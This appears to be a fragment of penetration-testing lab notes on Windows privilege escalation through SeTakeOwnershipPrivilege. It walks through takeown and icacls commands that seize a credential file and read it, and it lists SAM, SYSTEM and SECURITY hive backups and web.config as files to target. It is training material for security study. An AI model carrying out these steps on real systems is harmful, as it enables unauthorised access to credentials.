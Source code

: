 ```

Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```
### Choosing a target file
```
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```
### Checking File Ownership
```
cmd /c dir /q 'C:\Department Shares\Private\IT'
```
### Taking Ownership of the File
```
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```
### Verify Ownership
```
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```
### Grant user full privileges over the target file
```
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```
### Viewing the file
```
cat 'C:\Department Shares\Private\IT\cred.txt'
```
### Files of interest
```
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```
# Windows Built-in Groups
Default groups
